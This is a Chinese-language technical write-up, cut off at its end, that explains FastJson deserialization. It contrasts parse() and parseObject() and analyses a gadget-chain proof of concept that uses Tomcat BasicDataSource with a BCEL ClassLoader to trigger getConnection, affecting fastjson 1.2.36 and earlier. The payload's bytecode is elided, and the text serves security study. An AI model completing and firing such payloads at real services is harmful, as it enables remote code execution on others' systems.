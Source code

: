>FastJson中的 parse() 和 parseObject()方法都可以用来将JSON字符串反序列化成Java对象，parseObject() 本质上也是调用 parse() 进行反序列化的。但是 parseObject() 会额外的将Java对象转为 JSONObject对象，即 JSON.toJSON()。所以进行反序列化时的细节区别在于，parse() 会识别并调用目标类的 setter 方法及某些特定条件的 getter 方法，而 parseObject() 由于多执行了 JSON.toJSON(obj)，所以在处理过程中会调用反序列化目标类的所有 setter 和 getter 方法。 

回顾整个POC

```
{
    {
        "x": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$..."
        }
    }:"x"
}
```

这个POC利用了`JSONObject#toString`方法来执行了`getConnection`方法 

首先在`{“@type”: “org.apache.tomcat.dbcp.dbcp2.BasicDataSource”……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为xxx

在`DefaultJSONParser.parseObject`方法后面会调用key的toString方法 

```
if (object.getClass() == JSONObject.class) {
	key = key == null ? "null" : key.toString();
}
```

key为`JSONObject`对象，会调用该对象的toString方法。而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。然后会以字符串的形式输出出来。所以会调用到`getConnection`方法。 

POC的完整写法

```
{
    {
    	"@type": "com.alibaba.fastjson.JSONObject",
        "x": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$..."
        }
    }:"x"
}
```

 此利用链只能应用于`fastjson<=1.2.36`，在1.2.37版本中，直接去掉了`key.toString`方法

### [>=1.2.36]利用 fastjson $ref 构造 poc
